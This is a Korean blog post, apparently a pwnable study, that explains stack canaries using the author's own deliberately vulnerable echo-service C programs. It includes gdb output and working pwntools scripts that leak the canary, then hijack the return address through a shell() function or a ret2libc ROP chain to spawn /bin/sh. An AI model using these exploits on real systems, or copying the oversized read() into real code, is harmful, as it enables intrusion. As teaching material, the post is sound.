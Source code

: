 ```yaml
---
layout: post
title: "Pwnable Canary Study"
date: 2018-08-26 23:55:00 -0400
categories: pwnable
---
```


메모리 보호기법중에서 잘 알려진 카나리(Canary)에 대해서 이야기해보려 한다. 먼저 카나리가 무엇인지 이야기하고 직접 만든 문제를 해결하며 우회하는 방법에 대해 알아보도록 하겠다.

### Stack Canary?
일반적으로 Buffer Overflow 공격 시, SFP와 RET주소를 덮어씌워 공격자가 원하는 흐름대로 프로그램이 실행된다. 이때, 덮어씌워지는 것을 보호하기위해 스택에 할당되는 변수와 SFP, RET 사이에 특정한 값들을 추가한다. 이를 통해 카나리값의 변조 유무를 판단하여 버퍼 오버플로우를 탐지하는 것을 Canary라 한다. 

### Echo_Service1 (예제)
~~~c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

void echo_service(){
    write(0, "====== ECHO SERVICE =====\n", 27);
    write(0, "Input Echo String: ", 20);
}

void shell(){
    system("/bin/sh");
}

int main() {
    char buf[256];
    int i;
    for(i=0;i<2;i++){
        echo_service();
        read(0, buf, 1000);
        write(0, buf, strlen(buf));
    }
    return 0;
}
~~~

256bytes 크기의 buf 변수를 선언하고 사용자로부터 2번의 입력을 받고 입력한 문자열을 다시 출력하는 프로그램이다. 웬만하여 컴파일할때, 따로 옵션을 주지않아도 카나리는 자동으로 추가된다. 

~~~asm
gdb-peda$ pdisas main
Dump of assembler code for function main:
   0x00000000004006a6 <+0>:	push   rbp
   0x00000000004006a7 <+1>:	mov    rbp,rsp
   0x00000000004006aa <+4>:	sub    rsp,0x120
   0x00000000004006b1 <+11>:	mov    rax,QWORD PTR fs:0x28
   0x00000000004006ba <+20>:	mov    QWORD PTR [rbp-0x8],rax
   0x00000000004006be <+24>:	xor    eax,eax
   0x00000000004006c0 <+26>:	mov    DWORD PTR [rbp-0x114],0x0
   0x00000000004006ca <+36>:	jmp    0x40071c <main+118>
   0x00000000004006cc <+38>:	mov    eax,0x0
   0x00000000004006d1 <+43>:	call   0x400666 <echo_service>
   0x00000000004006d6 <+48>:	lea    rax,[rbp-0x110]
   0x00000000004006dd <+55>:	mov    edx,0x3e8
   0x00000000004006e2 <+60>:	mov    rsi,rax
   0x00000000004006e5 <+63>:	mov    edi,0x0
   0x00000000004006ea <+68>:	call   0x400540 <read@plt>
   0x00000000004006ef <+73>:	lea    rax,[rbp-0x110]
   0x00000000004006f6 <+80>:	mov    rdi,rax
   0x00000000004006f9 <+83>:	call   0x400510 <strlen@plt>
   0x00000000004006fe <+88>:	mov    rdx,rax
   0x0000000000400701 <+91>:	lea    rax,[rbp-0x110]
   0x0000000000400708 <+98>:	mov    rsi,rax
   0x000000000040070b <+101>:	mov    edi,0x0
   0x0000000000400710 <+106>:	call   0x400500 <write@plt>
   0x0000000000400715 <+111>:	add    DWORD PTR [rbp-0x114],0x1
   0x000000000040071c <+118>:	cmp    DWORD PTR [rbp-0x114],0x1
   0x0000000000400723 <+125>:	jle    0x4006cc <main+38>
   0x0000000000400725 <+127>:	mov    eax,0x0
   0x000000000040072a <+132>:	mov    rcx,QWORD PTR [rbp-0x8]
   0x000000000040072e <+136>:	xor    rcx,QWORD PTR fs:0x28
   0x0000000000400737 <+145>:	je     0x40073e <main+152>
   0x0000000000400739 <+147>:	call   0x400520 <__stack_chk_fail@plt>
   0x000000000040073e <+152>:	leave
   0x000000000040073f <+153>:	ret
End of assembler dump.
gdb-peda$
~~~

보면 main+11뿐에서 fs:0x28에서 canary 값을 가져와 rax에 저장하고 main+147에서 stack_chk_fail 함수를 통해 카나리 값이 변조되었는지 검사한다. 브포를 걸고 확인해보자.

~~~gdb
Breakpoint 1, 0x00000000004006b1 in main ()
gdb-peda$ n
[----------------------------------registers-----------------------------------]
RAX: 0x2dfb6ebdb5396f00	//Canary Value
RBX: 0x0
RCX: 0x0
RDX: 0x7fffffffe508 --> 0x7fffffffe74b ("XDG_SESSION_ID=10383")
RSI: 0x7fffffffe4f8 --> 0x7fffffffe710 ("/home/leehahoon/leehahoon_pwn/echo_service/1/echo_service1")
...
~~~

그렇다면 어떻게 스택 카나리 보호기법을 우회할 수 있을까. 여러 방법이 있겠지만 가장 대표적인 방법은 카나리의 특성을 이용하는 것이다. 카나리는 끝의 값에 무조건 NULL값이 붙는다. 그리고 대부분의 문자열 출력함수들은 NULL값이 나올때까지 출력 한다. 그 말은 위의 echo_service 예제에서 buf 변수를 다 덮어쓰고 카나리의 \x00까지 덮어씌우면 카나리값을 추출(Leak)하여 버퍼 오버플로우 공격을 성공할 수 있다.

gdb를 통해 분석을 하다보면 264bytes 까지가 변수이고 265bytes 부터는 카나리값이다. 
~~~gdb
gdb-peda$
...
0x7fffffffe3e0:	0x4141414141414141	0x4141414141414141
0x7fffffffe3f0:	0x4141414141414141	0x4141414141414141
0x7fffffffe400:	0x4141414141414141	0x235ab54b32cba80a
0x7fffffffe410:	0x0000000000400740	0x00007ffff7a2d830
...
~~~
read() 함수에서 A를 264개 넣고 스택을 확인한 모습이다. 카나리값의 마지막이 \x00이 아닌 \x0a인 이유는 A를 입력하며 엔터키가 같이 인식되었기 때문이다. 그렇다면 nc 서버로 실제 대회처럼 문제를 연결하고 카나리를 leak 해보도록 하겠다.

~~~python
from pwn import *
context.log_level = 'debug'

#r = process('./echo_service1')
r = remote('localhost', 1155)

r.recvuntil("Input Echo String: ")
r.send('A'*265)
r.recvuntil('A'*265)
canary = u64("\x00" + r.recv(7))
log.info(hex(canary))
~~~

이를 통해 카나리값을 알 수 있고, 이제 공격코드를 작성하면 된다. 쉽게 쉘을 획득하기위해 shell() 함수를 만들어 놓았다. 따라서 ret 주소를 shell() 함수로 덮어씌우면 쉘을 획득할 수 있을 것이다. 페이로드는 다음과 같을 것이다.

payload = [Dummy 264bytes] [Canary 8bytes] [SFP 8bytes] [RET 8Bytes (shell address)]

~~~python
from pwn import *
context.log_level = 'debug'

#r = process('./echo_service1')
r = remote('localhost', 1155)

r.recvuntil("Input Echo String: ")
r.send('A'*265)
r.recvuntil('A'*265)
canary = u64("\x00" + r.recv(7))
log.info(hex(canary))

payload = "A"*264
payload += p64(canary)
payload += "B"*8
payload += p64(0x400695)

r.recvuntil("Input Echo String: ")
r.send(payload)
r.interactive()
~~~

지금까지 이용한 방법 말고도 ROP를 이용하여 메모리값을 출력하거나 fork() 함수를 이용할 때, 카나리값은 항상 같으므로 브루트포싱하는 방법 등 여러가지가 존재할 수 있다.

그리고 위의 예제는 편의를 위해 shell() 함수를 만들어 놓았지만 ROP를 통해 문제를 해결할 수 있는 예제도 준비했다. 심심할 때 풀어보면 좋을 것 같다.

### Echo_Service2 (예제)
~~~c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <dlfcn.h>

void echo_service(){
    write(0, "====== ECHO SERVICE =====\n", 27);
    write(0, "Input Echo String: ", 20);
}

void print_system(){
    void * handle;
    char system_addr[100];
    handle = dlopen("./libc.so.6", 1);
    sprintf(system_addr, "system : %p\n", dlsym(handle, "system"));
    write(0, system_addr, 100);
}

int main() {
    char buf[256];
    int i;
    print_system();
    for(i=0;i<2;i++){
        echo_service();
        read(0, buf, 1000);
        write(0, buf, strlen(buf));
    }
    return 0;
}
~~~

echo_service2 공격코드
~~~python
from pwn import *
context.log_level = 'debug'

r = process('./echo_service2')
#r = remote('localhost', 1515)

r.recv(9)
a = r.recv(14)
system_addr = int(a, 16)
r.recvuntil("Input Echo String: ")
log.info("system : 0x%x" % system_addr)
r.send('A'*265)
r.recvuntil('A'*265)
canary = u64("\x00" + r.recv(7))
log.info('canary: 0x%x' % canary)

binsh_offset = 0x18cd57
system_offset = 0x45390
pop_rdi = 0x0003b589

libc_addr = system_addr - system_offset
binsh_addr = libc_addr + binsh_offset
pop_rdi_addr = libc_addr + pop_rdi

log.info('libc : 0x%x' % libc_addr)
log.info('/bin/sh : 0x%x' % binsh_addr)
log.info('pop rdi; ret : 0x%x' % pop_rdi_addr)

payload = "A"*264
payload += p64(canary)
payload += "B"*8
payload += p64(pop_rdi_addr)
payload += p64(binsh_addr)
payload += p64(system_addr)

r.recvuntil("Input Echo String: ")
r.send(payload)
r.interactive()
~~~